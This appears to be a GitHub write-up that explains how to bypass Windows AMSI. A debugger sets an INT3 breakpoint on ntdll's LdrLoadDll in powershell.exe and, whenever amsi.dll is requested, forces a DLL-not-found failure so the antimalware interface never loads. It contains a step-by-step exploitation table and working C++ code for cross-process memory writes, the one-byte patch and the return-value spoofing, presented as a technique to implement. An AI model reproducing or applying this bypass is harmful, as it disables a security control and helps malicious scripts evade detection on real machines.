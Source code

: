## How LdrLoadDll works ? 
 **How It Works (x64 Calling Convention)**
 ```cpp
NTSTATUS LdrLoadDll(
    PWCHAR         PathToFile,      // RCX (optional search path)
    ULONG          Flags,           // RDX
    PUNICODE_STRING ModuleFileName, // R8   DLL name (e.g., L"amsi.dll" in our case)
    PHANDLE        ModuleHandle     // R9   Output: base address
);
 ```

 Called by LoadLibrary, CLR, PowerShell, etc.
- Resolves path ==> maps DLL ==> runs DllMain.
- **If this fails ==> DLL never loads.**

### 2) Exploitation Strategy

**Step-by-Step Process:**

| Step | Action                                                                                                                                                                                                                                                                 |
| ---- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 1    | Launch target (e.g., powershell.exe) under DEBUG_PROCESS                                                                                                                                                                                                               |
| 2    | Wait for ntdll.dll to load → locate LdrLoadDll via offset matching                                                                                                                                                                                                     |
| 3    | Inject 0xCC (INT3) at LdrLoadDll entry → triggers EXCEPTION_BREAKPOINT                                                                                                                                                                                                 |
| 4    | On trap:  <br>→ Read R8 → remote UNICODE_STRING  <br>→ Read actual string → "amsi.dll"?  <br>→ **Yes** →  <br>   - Write 0 to *ModuleHandle (R9)  <br>   - Set RAX = STATUS_DLL_NOT_FOUND  <br>   - Jump to return address  <br>→ **No** → single-step to restore 0xCC |
| 5    | Result: LdrLoadDll returns failure = amsi.dll never maps.                                                                                                                                                                                                              |

So the main idea is to turn LdrLoadDll into a firewall xD :D.

Let's code our idea :) 
## Implementation Details

**1) Remote Memory R/W — Read/WriteProcessMemory + FlushInstructionCache for stealthy cross-process access.**
```cpp
   static int read_target_memory(LPCVOID addr, void *buf, SIZE_T size) {
    SIZE_T read = 0;
    return ReadProcessMemory(g_process_handle, addr, buf, size, &read) && read == size;
}
```
```cpp
static int write_target_memory(LPVOID addr, const void *buf, SIZE_T size) {
    SIZE_T written = 0;
    return WriteProcessMemory(g_process_handle, addr, buf, size, &written) &&
           written == size &&
           FlushInstructionCache(g_process_handle, addr, size);
}
```
 
**2)  1 BYTE MODIFICATION in LdrLoadDll :**
 ```cpp
   static int install_interception_point(LPVOID func_addr, BYTE *backup) { BYTE current; BYTE int3 = 0xCC;

if (!read_target_memory(func_addr, ¤t, 1)) return 0; *backup = current; return modify_executable_memory(func_addr, &int3, 1); }
```
**3) If amsi.dll detected = Error and jmp :**
```cpp
if (check_for_specific_module(module_name_buffer)) {
    // Null out ModuleHandle (R9)
    ULONGLONG null_handle = 0;
    write_target_memory((LPVOID)thread_context.R9, &null_handle, 8);
```
